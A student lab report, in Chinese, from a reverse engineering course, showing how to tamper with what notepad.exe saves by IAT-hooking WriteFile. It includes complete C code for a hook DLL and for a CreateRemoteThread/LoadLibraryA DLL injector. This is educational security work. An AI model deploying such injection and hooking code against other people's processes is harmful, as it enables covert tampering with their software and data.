

# 逆向工程与软件安全实验报告  

## 期末大作业  

### API hook方法更改notepad保存内容  

#### 实验环境  
* Windows 10  s
* notepad.exe  
* Visual Studio 2019  
* WinDbg x64  

#### 实验要求  
 - [x] WinDbg实现篡改  
 - [x] IAT hook方法实现篡改  
 
#### 实验过程  
1. 查看`notepad.exe`系统位置  
  
2. 查看`notepad.exe`导入表  
`dumpbin /imports C:\Windows\System32\notepad.exe > D:\imports.txt`  
  
3. 在导入表中查找与保存内容有关的函数  
在`kernel32.dll`中用到`WriteFile`  
  
4. 查找`WriteFile`函数相关文档  
[WriteFile function](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-writefile)  
  
5. WinDbg尝试篡改确认函数功能  
[训练使用WinDbg](https://github.com/AlinaZxy/Reverse/blob/%E6%9C%9F%E6%9C%AB%E5%A4%A7%E4%BD%9C%E4%B8%9A/%E6%9C%9F%E6%9C%AB%E5%A4%A7%E4%BD%9C%E4%B8%9A/%E5%AE%9E%E9%AA%8C%E5%87%86%E5%A4%87/%E5%AE%9E%E9%AA%8C%E5%87%86%E5%A4%87.md)  
  
  
6. 理解IAT hook  
[参考代码](https://github.com/tinysec/iathook)  
基本来说就是通过hook的方式接触到api函数的入口点，通过改变它的地址指向新的自定义的函数来实现篡改  
IAT hook属于API hook中常见的一种，基于修改PE文件的导入表（IAT）实现  
  
如图，我们需要修改PE文件中IAT里保存函数地址的部分  
  
（我的理解）IAT hook实现过程：  
编写对应的dll，dll里面即可实现对目标注入程序ImageBase以及各种头(DOS,NT,FILE,OPT)的获取，然后用dll注入的方法实现以假乱真，即用假函数的指针替换原来表中真函数的指针。  
7. 修改代码实现IAT hook  
对`tinysec/iathook`中所给的示例代码进行内容修改  
	```C
	#include <windows.h>

	LONG IATHook(
		__in_opt void* pImageBase,
		__in_opt const char* pszImportDllName,
		__in const char* pszRoutineName,
		__in void* pFakeRoutine,
		__out HANDLE* phHook
	);

	LONG UnIATHook(__in HANDLE hHook);

	void* GetIATHookOrign(__in HANDLE hHook);

	typedef bool(__stdcall *LPFN_WriteFile)(
		HANDLE       hFile,
		LPCVOID      lpBuffer,
		DWORD        nNumberOfBytesToWrite,
		LPDWORD      lpNumberOfBytesWritten,
		LPOVERLAPPED lpOverlapped
		);

	HANDLE g_hHook_WriteFile = NULL;
	//////////////////////////////////////////////////////////////////////////

	bool __stdcall Fake(
		HANDLE       hFile,
		LPCVOID      lpBuffer,
		DWORD        nNumberOfBytesToWrite,
		LPDWORD      lpNumberOfBytesWritten,
		LPOVERLAPPED lpOverlapped
	) {
		LPFN_WriteFile fnOrigin = (LPFN_WriteFile)GetIATHookOrign(g_hHook_WriteFile);

		char DataBuffer[] = "我真的真的不想再被隔离了！！！\n";
		DWORD dwBytesToWrite = (DWORD)strlen(DataBuffer);
		DWORD dwBytesWritten = 0;

		return fnOrigin(hFile, DataBuffer, dwBytesToWrite, &dwBytesWritten, lpOverlapped);
	}

	BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpvRevered) {
		switch (dwReason) {
		case DLL_PROCESS_ATTACH:
			IATHook(
				GetModuleHandle(NULL),
				"kernel32.dll",
				"WriteFile",
				Fake,
				&g_hHook_WriteFile
			);
			break;
		case DLL_PROCESS_DETACH:
			break;
		}
		return TRUE;
	}
	```  
8. 对于Release中生成的dll实现`notepad.exe`注入操作  
（和之前的注入相比，增加查找进程号操作）  
[参考代码](https://blog.csdn.net/ghevinn/article/details/21442089)  
	```C
	#include <windows.h>
	#include <stdio.h>
	#include <tlhelp32.h>

	int main() {
		char szDllName[] = "D:\\reverse and software\\IATHOOK\\IATHOOK\\x64\\Release\\HookWriteFile.dll";
		char szExeName[] = "notepad.exe";

		//单独寻找notepad.exe进程号
		PROCESSENTRY32 ProcessEntry = {};
		ProcessEntry.dwSize = sizeof(PROCESSENTRY32);
		HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
		bool bRet = Process32First(hProcessSnap, &ProcessEntry);
		DWORD dwProcessId = 0;
		while (bRet) {
			if (strcmp(szExeName, ProcessEntry.szExeFile) == 0) {
				dwProcessId = ProcessEntry.th32ProcessID;
				break;
			}
			bRet = Process32Next(hProcessSnap, &ProcessEntry);
		}
			//找不到进程号
		if (0 == dwProcessId) {
			printf("Defeat!!\n");
			return -1;
		}
		//进程打开失败
		HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwProcessId);
		if (0 == hProcess) {
			printf("Defeat!!\n");
			return -1;
		}
		//分配失败
		size_t length = strlen(szDllName) + 1;
		char * pszDllFile = (char *)VirtualAllocEx(hProcess, NULL, length, MEM_COMMIT, PAGE_READWRITE);
		if (0 == pszDllFile) {
			printf("Defeat!!\n");
			return -1;
		}
		//写入失败
		if (!WriteProcessMemory(hProcess, (PVOID)pszDllFile, (PVOID)szDllName, length, NULL)) {
			printf("Defeat!!\n");
			return -1;
		}
		//LoadLibraryA获取地址失败
		PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32"), "LoadLibraryA");
		if (0 == pfnThreadRtn) {
			printf("Defeat!!\n");
			return -1;
		}
		//创建失败
		HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, (PVOID)pszDllFile, 0, NULL);
		if (0 == hThread) {
			printf("Defeat!!\n");
			return -1;
		}
		//实现注入
		WaitForSingleObject(hThread, INFINITE);
		printf("Success!!\n");

		VirtualFreeEx(hProcess, (PVOID)pszDllFile, 0, MEM_RELEASE);
		CloseHandle(hThread);
		CloseHandle(hProcess);

		return 0;
	}
	```  
9. 注入结果展示  
  

#### 问题与解决  
1. 查看导入表认为是`api-ms-win-core-file-l1-1-0.dll`  
解决方案：在查阅官方文档时发现是`kernel32.dll`  
  
2. 在`API hook`和`IAT hook`中陷入纠结，思考二者有何区别  
解决方案：通过查阅资料发现，`IAT hook`其实是`API hook`的一种实现方法，IAT 法就是通过修改 IAT 表中的函数地址而达到的 API 截获的方法  
[API HOOK的 IAT方法](https://blog.csdn.net/misterliwei/article/details/840983)  
**老师回复（码住）：**  
把一个dll注入到目标进程，然后用这个dll中的函数换掉了原本系统dll的函数  
然后假的dll中的函数，调用了真dll中函数，对真函数的参数或者返回结果进行了篡改  


##### 参考资料  
[IAT HOOK](https://blog.csdn.net/enjoy5512/article/details/51570116)  
[IATHOOK详细讲解](http://www.gyarmy.com/post-393.html)  
[tinysec/iathook](https://github.com/tinysec/iathook)  
[实现dll注入其它进程](https://blog.csdn.net/ghevinn/article/details/21442089)  
[恶意DLL注入进程的实现](https://www.cnblogs.com/5314zkj/p/7029347.html)  
